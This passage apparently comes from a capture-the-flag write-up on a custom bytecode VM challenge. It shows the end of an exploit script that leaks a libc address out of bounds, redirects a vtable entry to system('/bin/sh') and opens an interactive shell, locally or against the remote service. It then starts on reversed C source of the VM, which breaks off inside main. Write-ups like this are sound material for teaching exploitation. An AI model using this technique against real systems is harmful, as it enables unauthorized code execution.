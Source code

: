 ```py
bytecode += VM_XOR_R_R_R(0x11, 0x11, 0x11)
bytecode += VM_SET_R_16(0x11, 0x4000)
bytecode += VM_SET_R_16(0x12, 0x6F)
bytecode += VM_SETB_MEM_R(0x12, 0x11, 0x00)
bytecode += VM_SET_R_16(0x12, 0x6E)
bytecode += VM_SETB_MEM_R(0x12, 0x11, 0x01)
# shuffle vtable where vm->vtable[0] = vtable[0x6f] which contains
# /bin/sh string address and vm->vtable[1] = vtable[0x6e] which contains
# system function address
bytecode += VM_SHUFFLE_VTABLES(0x2, 0x11, 0x00)

# call system
bytecode += VM_MOV_R_MEM(0, 0, 0)
bytecode += VM_EXIT()

bytecode = bytecode.ljust(0x400, b"\x00")
for i in range(1, 256):
    bytecode += VM_SET_R_16(i, i)
# oob read @ bytecode[0x8010] == __libc_start_main_ret
bytecode += VM_SET_R_16(0x10, 0x8010)
# __libc_start_main_ret bytes goes into r0, r1, r2, r3, r4, r5, r6
# r0 is now the least significant byte of __libc_start_main_ret
# so after shuffle, we execute insn at LSB + 0x4
bytecode += VM_SHUFFLE_REGS(6, 0x10, 0)

with tempfile.NamedTemporaryFile("wb") as f:
    f.write(bytecode)
    f.flush()

    io = start(argv=[f.name])
    if args.REMOTE:
        io.sendlineafter(b">> ", b64encode(bytecode))

    io.interactive()
```

## Appendix

### Reversed VM Source Code

```c
typedef struct vm_regs
{
  __int64 rX[256];
} vm_regs;

typedef struct s_vm
{
  __int64 vtable[39];
  vm_regs regs;
  unsigned __int8 bytecode[32768];
} s_vm;

__int64 __fastcall main(int argc, char **argv, char **envp)
{
  char *s1; // [rsp+10h] [rbp-8950h]
  FILE *stream; // [rsp+18h] [rbp-8948h]
  s_vm vm; // [rsp+20h] [rbp-8940h] BYREF
  unsigned __int64 canary; // [rsp+8958h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setup();
  if ( argc == 2 )
```